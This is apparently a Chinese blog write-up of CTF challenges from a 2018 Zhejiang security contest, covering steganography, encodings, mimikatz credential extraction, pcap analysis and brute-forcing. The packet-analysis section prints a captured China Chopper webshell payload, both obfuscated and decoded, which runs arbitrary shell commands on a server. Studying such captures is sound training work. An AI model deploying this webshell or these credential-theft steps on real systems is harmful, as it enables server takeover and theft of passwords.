<!--yml
category: 未分类
date: 2022-04-26 14:30:30
-->

# 2018年浙江省网络安全技能竞赛ctf部分解题思路writeup_xuchen16的博客-CSDN博客_网络安全ctf

> 来源：[https://blog.csdn.net/xuchen16/article/details/80855327](https://blog.csdn.net/xuchen16/article/details/80855327)

ctf题目链接: https://pan.baidu.com/s/1pKgkFblaz0Vpvr_elkBEkA 密码: 5dtc

一、隐写题

1.  key.exe

用binwalk -e key.exe提取文件



打开3F600.rar压缩包



2. 老鹰抓小鸡

这题考察的是bmp图片文件高度隐写，用010editor编辑器修改图片高度为-510另存为一张图片

tip：bmp高度正为倒向位图 高度为负为正向位图





二、密码学

1. 这个EXE好像被加密了

用hxd编辑器打开haha.exe文件发现右侧字符以等号结尾应该是base64编码



通过python脚本解码后得到



base64格式图片直接复制到浏览器打开是一张二维码图片



保存为图片本地用QR_Research打开



2. 看着是不是很眼熟

题目：

=E4=B8=89=E5=B8=9D=E4=BA=94=E5=B8=81=E4=B8=83=E6=98=93=E6=81=A9=E5=85=AD

=E5=93=A6=E8=BE=9F=E6=9B=BF=E4=BC=98=E5=85=AB=E5=BE=AE=E5=A4=96=E4=B9=9D

网上搜到是Quoted-Printable编码
http://www.mxcz.net/tools/quotedprintable.aspx 在线解码
三帝五币七易恩六
哦辟替优八微外九

把数字和英文发音首字母组合下得到key{3D5B7EA6OPTU8VY9}

三、系统密码破解

黑客攻击了一台windows2003的服务器，从拖出来了它的lsass进程内存镜像，你能从该镜像中获取管理员的密码吗？

管理员密码即为key！

把解压出的LSASS.DUMP在windows2003 用mimikatz打开



四、数据包分析

用wireshare打开wire.pcapng数据包，执行http.request.method==”POST”过滤http post

逐个数据包单击右键选择“Follow TCP Stream”来查看TCP数据流，发现最后一条记录（编号为41）的TCP数据流有Rar!标记这里通过菜刀POST往服务器上传了一个rar数据包，我们通过Save As按钮把数据包Dump出来，如下图所示：



提取数据包保存为rar文件是一个加密的图片



RAR文件是通过POST数据包上传文件内容的，抓包记录编号为41，压缩时添加的密码肯定在41之前的POST数据包进行分析，选中编号18这条POST记录，单击右键选择“Follow TCP Stream”来查看TCP数据流



先使用Converter对POST参数进行Unescape解码



解码后得到

pass=(@$_E=CREATE._FUNC.TION).($_S=@$_E(NULL,EV.(C&E).L.(a^I).BAS.E64_DE.code.(a^I).(a^E)._POST.(a|Z).z0.(d|Y).(a^H).(a^H).(n^U))).$_S();&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oJy0+fCcpOyRwPWJhc2U2NF9kZWNvZGUoJF9QT1NUWyJ6MSJdKTskcz1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejIiXSk7JGQ9ZGlybmFtZSgkX1NFUlZFUlsiU0NSSVBUX0ZJTEVOQU1FIl0pOyRjPXN1YnN0cigkZCwwLDEpPT0iLyI/Ii1jIFwieyRzfVwiIjoiL2MgXCJ7JHN9XCIiOyRyPSJ7JHB9IHskY30iOyRyZXQ9MTt0cnl7QHN5c3RlbSgkci4nIDI+JjEnLCRyZXQpO2lmKCRyZXQhPTApQHBhc3N0aHJ1KCRyLicgMj4mMScsJHJldCk7aWYoJHJldCE9MCl7JHo9QHNoZWxsX2V4ZWMoJHIuJyAyPiYxJyk7JHJldD0odHJpbSgkeik9PScnKT8xOjA7ZWNobygkeik7fWlmKCRyZXQhPTApe0BleGVjKCRyLicgMj4mMScsJHosJHJldCk7ZWNobygkej1qb2luKHN1YnN0cigkZCwwLDEpPT0nLyc/IlxuIjoiXHJcbiIsJHopKTt9aWYoJHJldCE9MCl7JGE9YXJyYXkoYXJyYXkoJ3BpcGUnLCdyJyksYXJyYXkoJ3BpcGUnLCd3JyksYXJyYXkoJ3BpcGUnLCd3JykpOyRmcD1AcHJvY19vcGVuKCRyLicgMj4mMScsJGEsJHBpKTskej1zdHJlYW1fZ2V0X2NvbnRlbnRzKCRwaVsxXSk7JHJldD0odHJpbSgkeik9PScnKT8xOjA7ZWNobygkeik7QHByb2NfY2xvc2UoJGZwKTt9aWYoJHJldCE9MCl7aWYoKCRmcD1AcG9wZW4oJHIuJyAyPiYxJywncicpKSE9RkFMU0UpeyR6PScnO3doaWxlKCFmZW9mKCRmcCkpeyR6Lj1mZ2V0cygkZnApO30kcmV0PSh0cmltKCR6KT09JycpPzE6MDtlY2hvKCR6KTtAcGNsb3NlKCRmcCk7fX1pZigkcmV0IT0wJiZzdWJzdHIoJGQsMCwxKSE9Ii8iJiZjbGFzc19leGlzdHMoJ0NPTScpKXskdz1uZXcgQ09NKCdXU2NyaXB0LnNoZWxsJyk7JG09JHctPmV4ZWMoJHIuJyAyPiYxJyk7JGY9JG0tPlN0ZE91dCgpOyR6PSRmLT5SZWFkQWxsKCk7JHJldD0odHJpbSgkeik9PScnKT8xOjA7ZWNobygkeik7fX1jYXRjaChFeGNlcHRpb24gJGUpe2VjaG8gJyBNZXNzYWdlOiAnLiRlLT5nZXRNZXNzYWdlKCk7fXByaW50ICgkcmV0IT0wKT8icmV0PXskcmV0fSI6Jyc7ZXhpdCgnfDwtJyk7&z1=Y21k&z2=Y2QgL2QgIkM6XHBocFxodGRvY3MiJndpbnJhciBhIC1wa0BlI3kxMDIwIGtleS5yYXIga2V5LmpwZyZlY2hvIFtTXSZjZCZlY2hvIFtFXQ==

把z0参数放到文本用python进行Base64解码，得到参数z0的数据为：

@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo('->|');$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";$ret=1;try{@system($r.' 2>&1',$ret);if($ret!=0)@passthru($r.' 2>&1',$ret);if($ret!=0){$z=@shell_exec($r.' 2>&1');$ret=(trim($z)=='')?1:0;echo($z);}if($ret!=0){@exec($r.' 2>&1',$z,$ret);echo($z=join(substr($d,0,1)=='/'?"\n":"\r\n",$z));}if($ret!=0){$a=array(array('pipe','r'),array('pipe','w'),array('pipe','w'));$fp=@proc_open($r.' 2>&1',$a,$pi);$z=stream_get_contents($pi[1]);$ret=(trim($z)=='')?1:0;echo($z);@proc_close($fp);}if($ret!=0){if(($fp=@popen($r.' 2>&1','r'))!=FALSE){$z='';while(!feof($fp)){$z.=fgets($fp);}$ret=(trim($z)=='')?1:0;echo($z);@pclose($fp);}}if($ret!=0&&substr($d,0,1)!="/"&&class_exists('COM')){$w=new COM('WScript.shell');$m=$w->exec($r.' 2>&1');$f=$m->StdOut();$z=$f->ReadAll();$ret=(trim($z)=='')?1:0;echo($z);}}catch(Exception $e){echo ' Message: '.$e->getMessage();}print ($ret!=0)?"ret={$ret}":'';exit('|<-');蟅6諰鯿d /d "C:\php\htdocs"&winrar a -pk@e#y1020 key.rar key.jpg&echo [S]&cd&echo [E]

这里通过Rar的命令行将C:\php\htdocs\key.jpg打包成key.rar文件，且指定了-pk@e#y1020 ，-p参数后面内容就是压缩包的密码



五、web

1. 源码被我藏起来了，看你能不能找到!

通过awvs扫描发现存在test.php页面

打开http://101.101.101.110/stage/11/test.php有个base64编码

YToyOntzOjQ6ImZ1bmMiO3M6MTI6ImdldF9jb250ZW50cyI7czo0OiJtYWluIjtzOjc6ImtleS5waHAiO30=  

解码后

a:2:{s:4:"func";s:12:"get_contents";s:4:"main";s:7:"key.php";}

2.  爆破

题目：

这里有一组信息，你需要自己制作密码字典进行爆破
用户名：小明  
用户出生日期：1997-04-18
用户邮箱:xm123@163.com
用户手机号码:13858987452

用户QQ号：48956347

用亦思想社会工程学字典生成器构造字典



后台用户名是admin， 然后用pkav破解带验证的后台

六、数据恢复

用DiskGenius打开hdd.vhd虚拟硬盘文件，点恢复文件后压缩包和照片类没找到key关键文件

